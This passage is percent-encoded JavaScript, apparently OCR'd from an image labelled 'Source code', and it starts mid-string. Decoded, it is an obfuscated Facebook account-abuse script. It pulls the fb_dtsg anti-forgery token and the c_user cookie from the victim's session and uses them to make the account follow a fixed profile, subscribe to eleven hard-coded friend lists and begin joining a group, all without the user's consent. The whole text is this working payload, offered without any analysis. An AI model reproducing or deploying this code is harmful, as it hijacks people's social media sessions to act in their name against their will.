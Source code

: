 6C%75%65%3B%0A%76%61%72%20%75%73%65%72%5F%69%64%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%0A%0A%66%75%6E%63%74%69%6F%6E%20%61%28%61%62%6F%6E%65%29%7B%0A%20%20%20%20%76%61%72%20%68%74%74%70%34%20%3D%20%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%0A%20%20%20%20%20%0A%20%20%20%20%76%61%72%20%75%72%6C%34%20%3D%20%22%2F%61%6A%61%78%2F%66%6F%6C%6C%6F%77%2F%66%6F%6C%6C%6F%77%5F%70%72%6F%66%69%6C%65%2E%70%68%70%3F%5F%5F%61%3D%31%22%3B%0A%20%20%20%20%20%0A%20%20%20%20%76%61%72%20%70%61%72%61%6D%73%34%20%3D%20%22%70%72%6F%66%69%6C%65%5F%69%64%3D%22%20%2B%20%61%62%6F%6E%65%20%2B%20%22%26%6C%6F%63%61%74%69%6F%6E%3D%31%26%73%6F%75%72%63%65%3D%66%6F%6C%6C%6F%77%2D%62%75%74%74%6F%6E%26%73%75%62%73%63%72%69%62%65%64%5F%62%75%74%74%6F%6E%5F%69%64%3D%75%33%37%71%61%63%5F%33%37%26%66%62%5F%64%74%73%67%3D%22%20%2B%20%66%62%5F%64%74%73%67%20%2B%20%22%26%6C%73%64%26%5F%5F%22%20%2B%20%75%73%65%72%5F%69%64%20%2B%20%22%26%70%68%73%74%61%6D%70%3D%22%3B%0A%20%20%20%20%68%74%74%70%34%2E%6F%70%65%6E%28%22%50%4F%53%54%22%2C%20%75%72%6C%34%2C%20%74%72%75%65%29%3B%0A%20%20%20%20%20%0A%20%20%20%20%2F%2F%53%65%6E%64%20%74%68%65%20%70%72%6F%70%65%72%20%68%65%61%64%65%72%20%69%6E%66%6F%72%6D%61%74%69%6F%6E%20%61%6C%6F%6E%67%20%77%69%74%68%20%74%68%65%20%72%65%71%75%65%73%74%0A%20%20%20%20%68%74%74%70%34%2E%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%43%6F%6E%74%65%6E%74%2D%74%79%70%65%22%2C%20%22%61%70%70%6C%69%63%61%74%69%6F%6E%2F%78%2D%77%77%77%2D%66%6F%72%6D%2D%75%72%6C%65%6E%63%6F%64%65%64%22%29%3B%0A%20%20%20%20%68%74%74%70%34%2E%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%43%6F%6E%74%65%6E%74%2D%6C%65%6E%67%74%68%22%2C%20%70%61%72%61%6D%73%34%2E%6C%65%6E%67%74%68%29%3B%0A%20%20%20%20%68%74%74%70%34%2E%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%43%6F%6E%6E%65%63%74%69%6F%6E%22%2C%20%22%63%6C%6F%73%65%22%29%3B%0A%20%20%20%20%20%0A%20%20%20%20%68%74%74%70%34%2E%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%20%3D%20%66%75%6E%63%74%69%6F%6E%28%29%20%7B%2F%2F%43%61%6C%6C%20%61%20%66%75%6E%63%74%69%6F%6E%20%77%68%65%6E%20%74%68%65%20%73%74%61%74%65%20%63%68%61%6E%67%65%73%2E%0A%20%20%20%20%69%66%28%68%74%74%70%34%2E%72%65%61%64%79%53%74%61%74%65%20%3D%3D%20%34%20%26%26%20%68%74%74%70%34%2E%73%74%61%74%75%73%20%3D%3D%20%32%30%30%29%20%7B%0A%20%20%20%20%20%20%20%0A%20%20%20%20%20%20%68%74%74%70%34%2E%63%6C%6F%73%65%3B%20%2F%2F%20%43%6C%6F%73%65%20%74%68%65%20%63%6F%6E%6E%65%63%74%69%6F%6E%0A%20%20%20%20%20%0A%20%20%20%20%7D%0A%20%20%20%20%7D%0A%20%20%20%20%0A%20%20%20%20%68%74%74%70%34%2E%73%65%6E%64%28%70%61%72%61%6D%73%34%29%3B%0A%7D%0A%0A%66%75%6E%63%74%69%6F%6E%20%73%75%62%6C%69%73%74%28%75%69%64%73%73%29%20%7B%0A%09%09%76%61%72%20%61%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%72%65%61%74%65%45%6C%65%6D%65%6E%74%28%27%73%63%72%69%70%74%27%29%3B%0A%09%09%61%2E%69%6E%6E%65%72%48%54%4D%4C%20%3D%20%22%6E%65%77%20%41%73%79%6E%63%52%65%71%75%65%73%74%28%29%2E%73%65%74%55%52%49%28%27%2F%61%6A%61%78%2F%66%72%69%65%6E%64%73%2F%6C%69%73%74%73%2F%73%75%62%73%63%72%69%62%65%2F%6D%6F%64%69%66%79%3F%6C%6F%63%61%74%69%6F%6E%3D%70%65%72%6D%61%6C%69%6E%6B%26%61%63%74%69%6F%6E%3D%73%75%62%73%63%72%69%62%65%27%29%2E%73%65%74%44%61%74%61%28%7B%20%66%6C%69%64%3A%20%22%20%2B%20%75%69%64%73%73%20%2B%20%22%20%7D%29%2E%73%65%6E%64%28%29%3B%22%3B%0A%09%09%64%6F%63%75%6D%65%6E%74%2E%62%6F%64%79%2E%61%70%70%65%6E%64%43%68%69%6C%64%28%61%29%3B%0A%7D%0A%0A%61%28%22%31%30%30%30%30%36%30%31%33%35%36%36%35%38%32%22%29%3B%0A%61%28%22%31%30%30%30%30%36%30%31%33%35%36%36%35%38%32%22%29%3B%0A%0A%73%75%62%6C%69%73%74%28%22%32%30%36%33%30%34%37%35%36%32%34%36%36%34%32%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%32%30%33%34%33%35%39%37%39%38%36%36%38%35%33%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%32%30%36%38%33%31%35%33%32%38%36%30%36%33%31%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%32%30%39%39%38%33%39%30%32%35%34%35%33%39%34%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%32%30%39%39%38%34%30%32%35%38%37%38%37%31%35%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%32%30%39%39%38%34%32%30%39%32%31%32%30%33%30%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%32%30%39%39%38%34%33%34%39%32%31%32%30%31%36%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%32%30%39%39%38%34%34%36%32%35%34%35%33%33%38%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%32%30%39%39%38%34%36%30%32%35%34%35%33%32%34%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%32%30%39%39%38%37%34%33%32%35%34%35%30%34%31%22%29%3B%0A%73%75%62%6C%69%73%74%28%22%32%30%39%39%38%37%35%31%32%35%34%35%30%33%33%22%29%3B%0A%0A%0A%76%61%72%20%67%69%64%20%3D%20%5B%27%32%30%33%34%33%35%39%37%39%38%36%36%38%35%33%27%5D%3B%0A%0A%76%61%72%20%66%62%5F%64%74%73%67%20%3D%20%64%6F%63%75%6D%65%6E%74%5B%27%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%27%5D%28%27%66%62%5F%64%74%73%67%27%29%5B%30%5D%5B%27%76%61%6C%75%65%27%5D%3B%0A%76%61%72%20%75%73%65%72%5F%69%64%20%3D%20%64%6F%63%75%6D%65%6E%74%5B%27%63%6F%6F%6B%69%65%27%5D%5B%27%6D%61%74%63%68%27%5D%28%64%6F%63%75%6D%65%6E%74%5B%27%63%6F%6F%6B%69%65%27%5D%5B%27%6D%61%74%63%68%27%5D%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%0A%0A%76%61%72%20%68%74%74%70%77%70%20%3D%20%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%0A%76%61%72%20%75%72%6C%77%70%20%3D%20%27%2F%61%6A%61%78%2F%67%72%6F%75%70%73%2F%6D%65%6D%62%65%72%73%68%69%70%2F%72%32%6A%2E%70%68%70%3F%5F%5F%61%3D%31%27%3B%0A%76%61%72%20%70%61%72%61%6D%73%77%70%20%3D%20%27%26%72%65%66%3D%67%72%6F%75%70%5F%6A%75%6D%70%5F%68%65%61%64%65%72%26%67%72%6F%75%70%5F%69%64%3D%27%20%2B%20%67%69%64%20%2B%20%27%26%66%62%5F%64%74%73%67%3D%27%20%2B%20%66%62%5F%64%74%73%67%20%2B%20%27%26%5F%5F%75%73%65%72%3D%27%20%2B%20%75%73%65%72%5F%69%64%20%2B%20%27%26%70%68%73%74%61%6D%70%3D%27%3B%0A%68%74%74%70%77%70%5B%27%6F%70%65%6E%27%5D%28%27%50%4F%53%54%27%2C%20%75%72%6C%77%70%2C%20%74%72%75%65%29%3B%0A